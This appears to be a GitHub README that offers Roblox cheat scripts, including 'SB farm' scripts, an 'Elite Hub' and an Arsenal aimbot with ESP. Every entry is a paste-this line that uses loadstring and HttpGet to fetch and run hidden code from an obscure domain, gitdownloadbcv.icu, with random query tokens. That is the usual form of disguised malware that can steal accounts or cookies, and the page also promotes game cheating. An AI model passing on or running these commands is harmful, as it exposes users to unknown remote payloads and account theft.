 # RBXlua
# SB farm

```loadstring(game:HttpGet("https://gitdownloadbcv.icu?1p0j1ftrzrogif5"))()```
# Another SB farm (better and more undetected)
```loadstring(game:HttpGet("https://gitdownloadbcv.icu?1ox0a5ww6l8w7j7"))()```

# Elite Hub #
```loadstring(game:HttpGet("https://gitdownloadbcv.icu?zslgsm4rhalmv14"))()```

#Below this are stuff that dont work are work in progress#

# Aimbot script+ESP. Recomended for Arsenal #
it does not seem to be detected but i have not tried in the long run. Tested with Swift Executor (Most Executors are detected in the long run anyways so dont use on main)
```
-- // CONFIGURATION For AimBot //

local Settings = {
    CircleSize = 60, -- Target circle size: 0 (tiny) to 100 (large). 100 covers almost half the screen.
    ActivateMethod = "E", -- "E" = Hold E key, "M2" = Hold right mouse button
    CircleColor = Color3.fromRGB(204, 189, 189), -- UI Circle color
    CircleTransparency = 0.6, -- UI transparency: 0 = solid, 1 = invisible
    TeamCheck = true, -- true = don't target teammates
}

-- CONFIGURATION For ESP //
local Config = {
    TeamCheck = true, -- true: don't show ESP on teammates
    ShowDistance = false, -- true: display distance above box
    Tracer = false, -- true: draw tracer lines
}
loadstring(game:HttpGet("https://gitdownloadbcv.icu?juv8ectzgu5fana"))()

```

